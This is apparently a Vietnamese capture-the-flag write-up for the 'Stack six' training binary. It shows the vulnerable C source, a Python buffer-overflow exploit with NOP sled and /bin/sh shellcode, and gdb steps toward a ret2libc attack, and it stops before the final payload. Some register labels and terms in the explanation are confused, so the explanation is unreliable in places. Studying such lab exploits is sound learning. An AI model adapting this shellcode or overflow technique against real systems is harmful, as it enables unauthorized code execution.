

Stack six
source code:
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void getpath()
{
char buffer[64];
unsigned int ret;
printf("input path please: "); fflush(stdout);
gets(buffer);
ret = __builtin_return_address(0);
if((ret & 0xbf000000) == 0xbf000000) {
printf("bzzzt (%p)\n", ret);
_exit(1);
}
printf("got path %s\n", buffer);
}
int main(int argc, char **argv)
{
getpath();
}
Trong chương trình này, hàm main gọi hàm getpath(). getpath() yêu cầu nhập vào một đường dẫn với gets().
ret = __builtin_return_address(0); là một hàm của compiler, có thể dùng để đọc current return address từ stack. Và địa chỉ của hàm trả về này được kiểm tra nếu nó bắt đầu với 0xbf. Nếu bằng thì nghỉ chơi. Hàm này làm chúng ta không thể tận dụng lỗi stack overflow như bình thường vì nguyên cái stack của chúng ta bắt đầu với 0xbf.
Cách 1: Orientated programming
Trong các bài trước chúng ta đã biết stack trông như này:
sau khi thực hiện xong hàm getpath() thì chương trình sẽ tìm tới ebp trong stack frame của getpath() và quay về hàm main.
nếu như lần này chúng ta thay đổi ebp của getpath() sao cho thay vì trở về hàm main nó sẽ gọi lại getpath một lần nữa thì lúc đấy địa chỉ trả về của getpath() sẽ không còn bắt đầu là 0xbf, như vậy chúng ta có thể thực hiện stack overflow với hàm gets như bình thường
vậy mục tiêu của chúng ta sẽ là làm thay đổi eip
import struct
padding = "0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp = struct.pack("I", 0x080484f9)
eip = struct.pack("I", 0xbffff7c0+32)
nopslide = "\x90" *150
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + ebp + eip + nopslide + payload
như trong chương trình, ebp đã bị thay đổi thành địa chỉ trả về của getpath(), và hàm getpath() sẽ gọi chính nó thêm 1 lần nữa
tiếp theo chương trình quay trở về đầu của stack và thực hiện stack overflow như trong stack five.
và

như vậy là xong.
Cách 2: ret2libc
- Debug stack6
gdb ./stack6
set disassembly-flavor intel
disass getpath
b *getpath
r
info proc map
ta thấy 0xb7e97000 là vị trí bắt đầu của libc còn 0x11f3bf là địa chỉ của "/bin/sh". Do vậy:

x/s 0xb7e97000+ 0x11f3bf
info address system (kiểm tra địa chỉ của system)
Để chương trình sau khi thực hiện xong hàm getpath() rồi quay về hàm system trong libc và gọi system("/bin/sh")
- "/bin/sh" phải nằm ở đầu stack sau khi hàm trả về.
- ebp phải là địa chỉ của system bên trong libc
- eip phải bị ghi đè. ở đây chúng ta sẽ ghi thành "AAAA"
stack trông như sau:

và phần còn lại là: